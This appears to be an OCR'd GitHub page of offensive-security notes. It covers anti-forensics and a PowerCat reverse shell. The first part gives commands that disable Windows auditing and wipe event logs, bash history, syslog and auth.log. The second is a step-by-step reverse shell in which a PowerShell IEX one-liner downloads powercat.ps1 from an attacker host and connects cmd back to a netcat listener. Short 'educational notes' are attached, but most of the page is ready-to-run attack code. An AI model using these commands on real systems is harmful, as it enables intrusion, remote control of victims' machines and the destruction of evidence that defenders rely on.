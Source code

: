### Covering Tracks and Erasing Evidence

```bash
# Disable Windows auditing (requires administrator privileges)
auditpol /set /category:"System" /success:disable /failure:disable

# Clear Windows Event Logs
elsave.exe -c Application
elsave.exe -c Security
elsave.exe -c System

# On Linux systems
# Clear bash history
history -c
rm ~/.bash_history

# Clear system logs
echo > /var/log/syslog
echo > /var/log/auth.log
```

**Educational Notes:**

- Log analysis is a critical part of incident response
- System administrators should protect logs from tampering
- Centralized and secure log management helps preserve evidence
- Unexpected gaps in logs can indicate anti-forensic activity

---

# PowerCat

### PowerShell Reverse Shell with Powercat

This example demonstrates how to establish a reverse shell connection using PowerShell and Powercat.

```bash
# On Kali Linux:
# 1. Clone the repository
┌──(kali㉿kali)-[~/Desktop]
└─$ git clone https://github.com/besimorhino/powercat.git

cd powercat

# 2. Start a Python HTTP server to host the script
┌──(kali㉿kali)-[~/Desktop/powercat]
└─$ sudo python -m http.server 8000

# 3. Start a Netcat listener to receive the connection
┌──(kali㉿kali)-[~/Desktop/]
└─$ sudo apt-get install netcat
┌──(kali㉿kali)-[~/Desktop/]
└─$ nc -lp 4444

# On Windows:
# 1. Create a PowerShell script named back.ps1 with the following content:
powershell -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.74.171:8000/powercat.ps1'); powerrcat -c 192.168.74.171 -p 4444 -e cmd"

# 2. Execute the script
# This will establish a reverse shell connection to the Kali machine

# On Kali Linux:
# You should now have a command prompt from the Windows machine
```